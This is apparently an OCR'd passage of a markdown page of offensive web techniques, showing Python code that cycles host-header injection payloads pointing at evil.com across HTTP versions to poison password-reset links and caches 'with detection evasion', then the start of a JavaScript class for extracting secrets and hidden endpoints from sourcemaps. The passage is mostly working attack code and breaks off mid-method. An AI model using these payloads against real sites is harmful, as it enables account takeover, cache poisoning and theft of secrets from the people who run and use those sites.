 ```python
        {'X-Host': 'evil.com'},
        {'X-Original-URL': 'http://evil.com/'},
        {'X-Rewrite-URL': 'http://evil.com/'},
        {'X-HTTP-Host-Override': 'evil.com'},

        # Complex forwarding
        {'Forwarded': 'host=evil.com;proto=https'},
        {'X-Forwarded-For': 'evil.com'},
        {'X-Real-IP': 'evil.com'},

        # HTTP/2 specific
        {'Host': 'evil.com\r\nHost: target.com'},  # Double header

        # Absolute URL override
        {'X-Original-URL': 'http://evil.com/reset'},
        {'X-Forwarded-Proto': 'https', 'X-Forwarded-Host': 'evil.com'}
    ]

    def test_all_combinations(self, target_url):
        """Test with detection evasion"""
        for headers in self.HEADERS_TO_TEST:
            # Test with different HTTP versions
            for http_version in ['1.0', '1.1', '2']:
                response = self.send_reset_request(
                    target_url,
                    headers,
                    http_version
                )

                if self.check_poisoning_success(response):
                    return headers, http_version

        # Try cache poisoning variant
        return self.attempt_cache_poisoning(target_url)

    def attempt_cache_poisoning(self, target):
        """Secondary attack via cache"""
        # Poison cache with Host header
        poison_headers = {'Host': 'evil.com', 'X-Forwarded-Host': 'evil.com'}
        self.send_reset_request(target, poison_headers)

        # Victim request gets poisoned response
        return self.verify_cache_poisoning(target)
```

---

## 🗺️ Advanced Sourcemap Exploitation

```javascript
class SourcemapExploitation {
    async comprehensiveAnalysis(targetUrl) {
        // Step 1: Discover all sourcemaps
        const maps = await this.discoverSourcemaps(targetUrl);

        // Step 2: Full source reconstruction
        for (const mapUrl of maps) {
            const reconstructed = await this.reconstructSource(mapUrl);

            // Step 3: Secret extraction (enhanced regex)
            const secrets = this.extractSecrets(reconstructed);

            // Step 4: Hidden endpoint discovery
```